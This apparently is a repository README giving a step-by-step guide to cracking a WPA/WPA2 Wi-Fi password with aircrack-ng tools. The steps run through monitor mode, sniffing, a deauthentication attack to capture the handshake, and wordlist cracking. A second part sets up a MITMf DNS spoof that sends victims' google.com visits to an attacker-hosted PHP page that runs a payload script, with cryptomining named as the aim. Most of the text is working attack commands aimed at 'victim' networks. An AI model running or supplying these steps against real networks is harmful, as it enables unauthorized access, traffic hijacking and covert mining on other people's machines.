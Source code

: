 # Gaining access to WPA/WPA2 with short/easy password and inject mining script
## Part 1. Gaining access to WIFI:
1. Install kali
2. Buy and hook a NIC (I used alfa awus036neh) that can use monitor mode to VM (assuming your interface name is wlan0)
``` 
ifconfig wlan0 down && iwconfig wlan0 mode monitor && ifconfig wlan0 up
OR
airmon-ng start wlan0
```
3. Sniff the environment for victim WIFI and capture bssid of target WIFI (Assuming target bssid is BSSID channel C)
```
airodump-ng wlan0
```
4. Sniff the MAC address of clients connected to it (Assuming target mac is MAC) 
```
airodump-ng --bssid BSSID --channel C --write output wlan0 
```
5. Get the handshake traffic. WPA/WPA2 is more secure than WEP so need to capture WPA/WPA2 handshake traffic since it contains Message Integrity Code (MIC) sent from client during handshake. To get the handshake traffic, use deauthentication attack to kick a currently connected client offline and capture it’s traffic when it reconnects.
```
aireplay --deauth 0 -a BSSID -c MAC wlan0
```
6. Get a wordlist. Two approaches for this part. (Assuming wordlist file is wl.txt)
   1. Downloaded wordlists from https://github.com/berzerk0/Probable-Wordlists/tree/master/Real-Passwords/WPA-Length 
   2. Generated my custom wordlist. Since when I am attacking my own wifi, I have some information about the password pattern and it makes the process easier. In real world this process is done by social engineering.
7. Compare the captured MIC with locally generated MIC from password from wordlist to find the correct password. 
```
aircrack-ng output-01.cap -w wl.txt
```
## Part 2. Injecting malicious script to victim machine.
The general idea is to use MITM attack and do DNS spoofing. When the victim visites google.com, I will redirect him to php file under my server and execute the payload
1. Install MITMf
2. Change the /etc/mitmf/mitmf.conf file, add the following line below the IPv4 address record line
```
*.google.com=LOCALHOST_IP_IN_THE_TARGET_NETWORK/PATH_TO_PHP.php
```
3. Create the php file, Code I used is 
```
<?php
$result = shell_exec('/var/www/html/payload.sh');
echo $result;
?>
<a href="https://www.google.com">Continue to Google</a>
```

